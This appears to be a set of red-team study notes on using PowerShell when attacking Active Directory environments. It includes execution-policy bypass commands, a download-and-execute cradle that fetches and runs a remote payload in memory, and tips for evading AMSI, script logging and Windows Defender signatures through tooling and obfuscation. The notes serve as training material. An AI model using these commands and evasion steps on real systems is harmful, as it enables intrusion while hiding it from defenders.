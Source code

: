 # PowerShell
### PowerShell
- When attacking active directory environments, PowerShell are mostly using to enumerate active directory environment.
- **PowerShell is a shell and scripting language**.
- Powershell provides access to almost everything in a Windows OS and Active Directory Environment.
- It comes pre-installed since Windows Vista.
- PowerShell is not "powershell.exe".
- Powershell.exe is a DLL to access PowerShell.
- Powershell is based on .NET framework
- Powershell is tightly integrated with Windows OS.
- There is a operating system independent version named PowerShell Core.
- PowerShell is installed by default on Windows OS since Windows Vista.
### PowerShell CmdLets
- **Command Lets (Cmdlets) are used to perform an action**.
- **Cmdlets results a .NET object as output**.
- Cmdlets accept parameters for different operations.
- Cmdlets have aliases.
- Cmdlets are NOT executables.
- As an attacker, we can write our own cmdlet with few lines of script.
- `Get-Command -CommandType cmdlet`: To list all cmdlets
- Example: `Get-Process` : lists processes running on a Windows OS installed computer.
### PowerShell Help System
- `Get-Help` is a cmdlet.
- Shows a brief help about the cmdlet or topic.
- Supports Wildcard
- Comes with various options and filters.
- Example: `Get-Help *`
### PowerShell Scripts
- PowerShell scripts may use;
    - cmdlets
    - native executables
    - functions
    - .NET classes
    - DLLs
    - Windows API
	and much more in a single script.
### PowerShell ISE
- ISE is a GUI Editor and Scripting environment.
- ISE comes with a handy console pane to run commands.
### PowerShell Execution Policy
- **Execution Policy prevents users from accidently executing scripts**.
- **It is NOT a security measure**.
- Execution Policy Bypass Commands:
    - `powershell -ExecutionPolicy bypass`
    - `powershell -c <command>`
    - `powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"`
- **None of these bypasses requires administrative privileges**.
### PowerShell Scripts and Modules
- **PowerShell supports modules and scripts**.
- Pre-built modules and scripts contain useful commands to execute on PowerShell instance.
- A module or a script can be imported with:
    - `Import-Module <module-name>.psd1`
- All the commands in a module can be listed with:
    - `Get-Command -Module <module-name>`
- A script can be imported with using dot sourcing:
	- `. .\<script-name>.ps1`
### PowerShell Script Execution in Computer Memory
- Download execute cradle:
    - `IEX (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')`
- **IEX = Invoke Expression
- **This command downloads a script and executes the script in memory**.
- PowerShell v3 onwards: `iex (iwr 'http://webserver/payload.ps1')`
### PowerShell and Active Directory
- We can interact with active directory services from a powershell instance with:
	- ADSI
	- .NET Classes
	- Native Executables
	- WMI Using Powershell
	- Microsoft's ActiveDirectory Module
### Powershell Malicious Script or Module Detections
- System-Wide transcription:
	- Logs all the commands
	- Since windows server 2016.
- Script block logging:
	- Turned on by default since windows server 2019.
- **AntiMalware Scan Interface** (**AMSI**)
- Constrained Language Mode (CLM)
	- Integrated with AppLocker and WDAC (Device Guard)
### Windows AMSI Bypass
- `Invisi-Shell` tool is used for bypassing security controls in Powershell.
- The tool hooks the .NET assemblies to bypass logging.
- It uses a CLR Profiler API to perform the hook.
* **Using Invisi-Shell**: 
	* Admin privileges: `RunWithPathAsAdmin.bat`
	* Non-admin privilges: `RunWithRegistryNonAdmin.bat`
### Bypassing AV Signatures for Powershell
- We can always load scripts in memory to avoid detection using Invoke-Expression cmdlet with Invoke-WebRequest cmdlet.

- If we are executing scripts/binaries from storage disk, we need to bypass Windows Defender:
    - `AMSITrigger` tool to identify detected part of a script.
    - `DefenderCheck` tool to identify code and strings from a binary file that Windows Defender may flag.

```powershell
$ AMSItrigger.exe -i C:\AD\Tools\Invoke-PowershellTcp.ps1
$ DefenderCheck.exe PowerUp.ps1
```

* After detecting strings that has been catched by Windows Defender, we can change variable names or add backticks in cmdlets to bypass Anti-Malware programs and Windows Defender.

- For full obfuscation of PowerShell scripts, we can use `Invoke-Obfuscation`. 
- This PowerShell script is used in obfuscation process to bypass AMSI.
